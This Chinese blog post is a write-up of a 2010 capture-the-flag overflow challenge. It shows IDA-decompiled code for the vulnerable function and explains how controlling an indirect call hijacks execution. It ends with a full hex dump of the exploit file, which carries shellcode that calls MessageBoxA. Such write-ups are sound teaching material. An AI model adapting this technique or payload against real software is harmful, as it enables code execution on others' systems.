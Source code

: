 ```yaml
---
layout: post
title: "一道XDCSC2010溢出题"
description: "XDCSC2010溢出题"
category: 技术
tags: [exploit]
---
```

{% include JB/setup %}

昨天偶然上了一下xdsec.org，发现上面放了往年的比赛题目，抱着试一试的心态下了xdcsc2010的题目来看看，这是第一个题的笔记。

这是一个溢出题，程序下载[ExploitMe](/assets/file/xdcsc2010/01yichu.zip)，题目要求如下：

![](/assets/img/xdcsc2010/01yichu/1.png)

抄起IDA，找到关键函数，F5一把，下面是大概的流程


	signed int __cdecl sub_401000()
	{
	  HANDLE v0; // eax@1
	  void *v1; // edi@1
	  void *v2; // ebp@1
	  HANDLE v3; // eax@1
	  void *v4; // esi@1
	  unsigned int v5; // ebx@2
	  HMODULE v6; // esi@3
	  signed int v8; // [sp+10h] [bp-318h]@1
	  void *hHeap; // [sp+14h] [bp-314h]@1
	  HANDLE v10; // [sp+18h] [bp-310h]@1
	  DWORD NumberOfBytesRead; // [sp+1Ch] [bp-30Ch]@1
	  int (**v12)(); // [sp+20h] [bp-308h]@1
	  char v13; // [sp+24h] [bp-304h]@4
	  int v14; // [sp+A4h] [bp-284h]@1
	  char v15; // [sp+A8h] [bp-280h]@6
	  char Buffer; // [sp+128h] [bp-200h]@3
	
	  v8 = 0;
	  v12 = &off_4050B4;
	  v14 = (int)off_4050B0;
	  NumberOfBytesRead = 0;
	  v0 = HeapCreate(0, 0x1000u, 0x10000u);
	  v1 = v0;
	  hHeap = v0;
	  v2 = HeapAlloc(v0, 0, 0x200u);
	  v3 = CreateFileA("exploit.dat", 0x80000000u, 1u, 0, 4u, 0x80u, 0);
	  v4 = v3;
	  v10 = v3;
	  if ( v3 != (HANDLE)-1 )
	  {
	    v5 = GetFileSize(v3, 0);
	    if ( v5 <= 0x200 )
	    {
	      ReadFile(v4, &Buffer, v5, &NumberOfBytesRead, 0);
	      memcpy(v2, &Buffer, v5);
	      memset(&Buffer, 0, 0x200u);
	      v6 = LoadLibraryA("user32.dll");
	      dword_408510 = (int)GetProcAddress(v6, "MessageBoxW");
	      dword_408514 = (int)GetProcAddress(v6, "MessageBoxA");
	      if ( v5 <= 0x84 )
	        memcpy(&v13, v2, v5);
	      HeapFree(hHeap, 1u, v2);
	      memset(v2, 0, 0x80u);
	      if ( v5 <= 0x84 )
	        memcpy(&v15, v2, v5);
	      ((void (__thiscall *)(int (***)()))*v12)(&v12);
	      (*(void (__thiscall **)(int *))v14)(&v14);
	      v1 = hHeap;
	      v4 = v10;
	      v8 = 1;
	    }
	  }
	  if ( v4 )
	    CloseHandle(v4);
	  if ( v2 )
	    HeapFree(v1, 1u, v2);
	  if ( v1 )
	    HeapDestroy(v1);
	  return v8;
	}

程序流程还是比较明了的，先读取exploit.dat里面的数据到stack上面，接着拷到heap，再倒腾回stack，真实蛋疼，之前就受这个影响考虑多了，以为要涉及堆溢出等。主要是要注意到函数末尾的两个call，v12和v14，经过调试可以发现v14里面的数据是我们可以控制的。这里我就犯了一个错误，导致浪费了大量时间。我当时注意到函数中已经得到了MessageBoxA的地址（dword_408514），我就想直接跳过去，但是由于esp在低地址，参数老是构造不好，因为esp那块数据没有办法覆盖。


今天上午才突然开了窍，既然eip都控制了，还有啥干不了的，直接将eip定位到stack上我们能够覆盖到的数据，然后写几句压栈的shellcode，之后跳转到MessageBoxA里面去。最终的exploit.dat如下

	00000000h: 7C FC 12 00 51 6A 00 68 C8 FC 12 00 68 D8 FC 12 ; |?.Qj.h赛..h攸.
	00000010h: 00 6A 00 B9 14 85 40 00 FF 11 59 C3 00 00 00 00 ; .j.?匑..Y?...
	00000020h: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ; ................
	00000030h: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ; ................
	00000040h: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ; ................
	00000050h: 45 78 70 6C 6F 69 74 4D 65 00 00 00 00 00 00 00 ; ExploitMe.......
	00000060h: 45 78 70 6C 6F 69 74 20 73 75 63 63 65 73 73 00 ; Exploit success.
	00000070h: 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 00 ; ................
	00000080h: 78 FC 12 00                                     ; x?.


溢出结果


![](/assets/img/xdcsc2010/01yichu/2.png)